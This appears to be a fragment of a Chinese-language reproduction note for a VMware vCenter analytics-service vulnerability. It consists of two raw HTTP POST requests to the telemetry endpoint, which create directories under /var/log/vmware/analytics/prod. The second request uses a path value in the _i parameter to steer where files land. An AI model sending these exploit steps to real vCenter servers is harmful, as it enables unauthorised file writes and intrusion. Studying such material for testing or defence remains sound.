 ![image-20230613105055431](attachments/image-20230613105055431.png)

创建prod目录，即创建 /var/log/vmware/analytics/prod 下的

```http
POST /analytics/telemetry/ph/api/hyper/send?_c=vSphere.vapi.6_7&_i=9D36C850-1612-4EC4-B8DD-50BA239A25BB HTTP/1.1
Host: 172.16.8.111
Connection: close
Accept-Encoding: gzip, deflate
Accept: */*
User-Agent: Mozilla/5.0
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Content-Type: application/json
X-Deployment-Secret: abc
Content-Length: 3


{}
```

创建_cvSphere.vapi.6_7_i目录即创建 /var/log/vmware/analytics/prod 下的

```http
POST /analytics/telemetry/ph/api/hyper/send?_c=vSphere.vapi.6_7&_i=/temp HTTP/1.1
Host: 172.16.8.111
Connection: close
Accept-Encoding: gzip, deflate
Accept: */*
User-Agent: Mozilla/5.0
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Content-Type: application/json
X-Deployment-Secret: abc
Content-Length: 3


{}
```
